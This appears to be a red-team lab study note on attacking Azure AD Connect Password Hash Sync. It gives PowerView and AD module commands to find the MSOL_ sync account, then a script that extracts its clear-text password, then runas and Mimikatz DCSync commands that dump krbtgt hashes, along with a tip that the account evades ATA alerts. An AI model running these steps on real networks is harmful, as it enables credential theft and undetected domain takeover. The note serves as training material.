

# Cross Domain Attacks - Attacking Azure AD Integration

- [Cross Domain Attacks - Attacking Azure AD Integration](#cross-domain-attacks---attacking-azure-ad-integration)
  - [Attacking Azure AD Integration](#attacking-azure-ad-integration)
  - [Leverage Password Hash Sync (PHS)](#leverage-password-hash-sync-phs)

----

## Attacking Azure AD Integration

Azure AD is a popular method to extend identity management from onpremises AD to Microsoft's Azure offerings. Many enterprises use their on-prem AD identities to access Azure applications.

> *"A single user identity for authentication and authorization to all resources, regardless of location…is hybrid identity."*

<br/>

An on-premises AD can be integrated with Azure AD using Azure AD Connect with the following methods:

- Password Hash Sync (PHS)
- Pass-throughr Authentication (PTA)
- Federation

Azure AD Connect is installed on-premises and has a high privilege account both in on AD and Azure AD!

<br/>

## Leverage Password Hash Sync (PHS)

  

- https://docs.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs

PHS shares users and their password hashes from on-premises AD to Azure AD. A new user `MSOL_` is created which has Synchronization rights (DCSync) on the domain!

<br/>

Enumerate the PHS account and server where AD Connect is installed.

- PowerView

```
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local
```

- AD Module

```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

<br/>

We already have administrative access to `us-adconnect` as `helpdeskadmin`. With administrative privileges, if we run `adconnect.ps1`, we can extract the credentials of the `MSOL_` account used by AD Connect in **clear-text**:

```
.\adconnect.ps1
```

Note:
Note that the above script's code runs powershell.exe so verbose logs (like transcripts) will be there.

With the password, we can run commands as `MSOL_`:

```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

<br/>

And can then execute the DCSync attack:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

Note:
Because AD Connect synchronizes hashes every **two minutes**, in an Enterprise Environment, the `MSOL_` account will be **excluded from tools like ATA**! This will allow us to run DCSync without any alerts!

<br/>

